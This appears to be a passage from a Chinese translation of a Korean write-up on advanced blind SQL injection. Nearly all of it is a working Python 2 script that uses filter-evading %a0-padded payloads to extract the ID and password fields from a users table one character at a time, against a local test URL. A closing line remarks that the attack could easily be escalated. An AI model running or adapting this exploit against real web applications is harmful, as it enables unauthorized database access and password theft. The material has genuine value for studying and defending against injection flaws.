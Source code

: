 ```
### blind.py ###

import urllib
import sys
import os



def put_data(true_url, true_result, field, index, length):
    for i in range(1, length+1):
        for j in range(32, 127):
            attack_url = true_url + "^(%%a0locate%%a0%%a0(0x%x,(%%a0select%%a0%s%%a0%%a0from%%a0%%a0users%%a0where%%a0num=%d),%d)=%d)" % (j,field,index,i,i)
            attack_open = urllib.urlopen(attack_url)
            attack_result = attack_open.read()
            attack_open.close()

            if attack_result==true_result:
                ch = "%c" % j
                sys.stdout.write(ch)
                break
    print "\t\t",

def get_length(false_url, false_result, field, index):
    i=0
    while 1:
        data_length_url = false_url + "^(%%a0(select%%a0octet_length%%a0%%a0(%s)%%a0from%%a0users%%a0where%%a0num%%a0=%%a0%d)%%a0=%%a0%d)" % (field,index,i)
        data_length_open = urllib.urlopen(data_length_url)
        data_length_result = data_length_open.read()
        data_length_open.close()
        if data_length_result==false_result:
            return i
        i+=1

url = "http://127.0.0.1/info.php"

true_url = url + "?num=1"
true_open = urllib.urlopen(true_url)
true_result = true_open.read()
true_open.close()

false_url = url + "?num=0"
false_open = urllib.urlopen(false_url)
false_result = false_open.read()
false_open.close()


print "num\t\tid\t\tpassword"
fields = "num", "id", "password"

for i in range(1, 4):
    for j in range(0, 3):
        length = get_length(false_url, false_result, fields[j], i)
        length = put_data(false_url, true_result, fields[j], i, length)
    print ""

```

很遗憾，攻击测试很快就停止了。如果有人学过一些额外的攻击代码，他将很容易地升级攻击。

韩文原版http://wh1ant.kr/archives/[Hangul]%20False%20SQL%20injection%20and%20Advanced%20blind%20SQL%20injection.txt
